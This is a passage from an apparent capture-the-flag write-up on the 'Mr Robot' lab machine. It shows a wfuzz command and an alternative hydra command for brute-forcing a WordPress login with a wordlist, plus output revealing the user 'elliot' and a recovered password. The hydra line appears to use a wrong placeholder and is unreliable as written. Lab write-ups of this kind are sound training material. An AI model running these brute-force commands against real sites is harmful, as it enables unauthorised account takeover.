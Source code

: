 ```
❯ wfuzz -c --hw=194 -w ./fsocity.dic -u http://10.10.81.190/wp-login.php/ -d "log=elliot&pwd=FUZZ&wq-submit=Log In&redirect_to=http://10.10.81.190/wq-admin/&testcookie=" -H "Cookie: wordpress_test_cookie=WP Cookie check" -t 500 --hl 59
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.81.190/wp-login.php/
Total requests: 858160

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                        
=====================================================================

000858151:   302        0 L      0 W        0 Ch        "ER28-0652"
```

Another way 

```
❯ hydra -l Elliot -P fsocity.dic 10.10.81.190 http-post-form "/wp-login.php:log=^USER^&pwd=^pwd^:The password you entered for the username" -t 30
```

`elliot:ER28-0652`

The password is correct

![](/assets/images/try-writeup-mrrobot/ok.png)

Now go here 

![](/assets/images/try-writeup-mrrobot/casi.png)
